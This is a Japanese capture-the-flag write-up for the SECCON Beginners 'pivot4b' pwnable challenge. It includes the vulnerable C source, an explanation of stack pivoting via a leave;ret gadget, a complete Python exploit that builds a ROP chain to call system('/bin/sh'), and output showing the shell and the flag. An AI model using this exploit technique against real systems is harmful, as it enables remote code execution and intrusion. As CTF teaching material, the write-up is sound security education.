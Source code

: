 # pivot4b:pwnable:394pts
スタックはあなたが創り出すものです。  
`nc pivot4b.challenges.beginners.seccon.jp 12300`  

[pivot4b.zip](pivot4b.zip)  

# Solution
接続先とソースが渡される。  
接続すると謎のメッセージを送れるサービスが始まる。  
```bash
$ nc pivot4b.challenges.beginners.seccon.jp 12300
Welcome to the pivot game!
Here's the pointer to message: 0x7ffc15c02c20
> SATOKI
Message: SATOKI
```
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gift_set_first_arg() {
	asm volatile("pop %rdi");
	asm volatile("ret");
}

void gift_call_system() {
	system("echo \"Here's your gift!\"");
}

int main() {
	char message[0x30];

	printf("Welcome to the pivot game!\n");
	printf("Here's the pointer to message: %p\n", message);

	printf("> ");
	read(0, message, sizeof(message) + 0x10);

	printf("Message: %s\n", message);

	return 0;
}


__attribute__((constructor)) void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(120);
}
```
最初に`message`のスタックアドレスが表示されているようだ。  
`main`に自明なBOFがあり、`gift_set_first_arg`のガジェットや`gift_call_system`の`system`などギフトも多い。  
ただし、`0x10`のオーバーフローしか行えないので、問題名の通りスタックピボットしてROPする必要がありそうだ。  
オーバーフロー上半分でピボット先のアドレスを、下半分で`leave; ret;`ガジェットの実行を行うことでうまくスタックを指定できる。  
指定先を表示されている`message`のスタックアドレスにすれば、それ以降の0x28(0x30-0x8)分のROPが可能となる。  
先頭に`/bin/sh\x00`を詰めれば、文字列へのアドレスもわかって一石二鳥となる。  
以下のsolve.pyで行う。  
```py
from ptrlib import *

elf = ELF("./chall")
# sock = Process("./chall")
sock = Socket("nc pivot4b.challenges.beginners.seccon.jp 12300")

message = int(sock.recvlineafter("pointer to message: "), 16)
print(f"message:", hex(message))

payload = b"/bin/sh\x00"
payload += p64(next(elf.gadget("pop rdi; ret;")))
payload += p64(message)
payload += p64(next(elf.gadget("ret;")))
payload += p64(elf.plt("system"))
payload += b"A" * 0x8
payload += p64(message)
payload += p64(next(elf.gadget("leave; ret;")))

sock.sendlineafter("> ", payload)

sock.sh()
```
実行する。  
```bash
$ python solve.py
[+] __init__: Successfully connected to pivot4b.challenges.beginners.seccon.jp:12300
message: 0x7ffcdcb0ec50
[ptrlib]$ Message: /bin/sh
[ptrlib]$ ls
flag-bce7759151aa98ff2e61358f578ec2eb.txt
run
[ptrlib]$ cat flag-bce7759151aa98ff2e61358f578ec2eb.txt
ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}
```
シェルが取れ、ファイルにflagが書かれていた。  

## ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}